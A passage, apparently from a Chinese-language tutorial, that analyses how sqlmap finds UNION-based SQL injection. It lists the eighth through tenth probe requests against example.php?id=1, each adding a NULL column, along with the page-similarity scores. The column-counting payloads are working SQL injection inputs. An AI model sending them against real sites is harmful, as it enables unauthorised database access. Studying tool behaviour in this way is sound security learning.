这个数据包的网页相似度数值为0.724，第八个数据包：

```text
example.php?id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- moNa
```

![](../../.gitbook/assets/sqlmap40.jpg)

这个数据包的网页相似度数值为0.723，第九个数据包：

```text
example.php?id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- vHbn
```

![](../../.gitbook/assets/sqlmap41.jpg)

这个数据包的网页相似度数值为0.725，第十个数据包：

```text
example.php?id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- bVyF
```

![](../../.gitbook/assets/sqlmap42.jpg)
